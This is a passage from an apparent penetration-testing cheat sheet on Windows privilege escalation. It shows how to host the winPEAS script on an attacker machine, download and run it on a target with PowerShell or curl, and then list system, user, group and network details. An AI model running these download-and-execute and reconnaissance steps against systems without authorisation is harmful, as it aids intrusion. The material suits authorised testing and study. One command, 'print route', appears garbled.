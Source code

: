             ```sh
            wget https://github.com/carlospolop/PEASS-ng/releases/download/20220710/winPEAS.bat
            ```

            Start web server to allow the target machine to get the WinPEAS.

            ```sh
            python3 -m http.server 8000
            ```

        2. **Transfer the WinPEAS using PowerShell on the Target Machine**

            ```powershell
            cd \Users\<user-name>\Desktop
            powershell

            Invoke-WebRequest -Uri http://<your-local-ip>:8000/winPEAS.bat -OutFile .\winPEAS.bat
            # or
            curl http://<your-local-ip>:8000/winPEAS.bat -o .\winPEAS.bat
            ```

        3. **Execute the WinPEAS**

            ```powershell
            .\winPEAS.bat
            ```

2. **OS Information**

    ```powershell
    hostname
    systeminfo
    systeminfo | findstr "OS"
    ver

    # Current user
    whoami
    whoami /user
    whoami /groups
    whoami /priv
    whoami /all
    echo %username%

    # List users and groups
    net users
    net user USERNAME
    net localgroup

    # Network
    ipconfig
    ipconfig /all
    print route
    arp -A
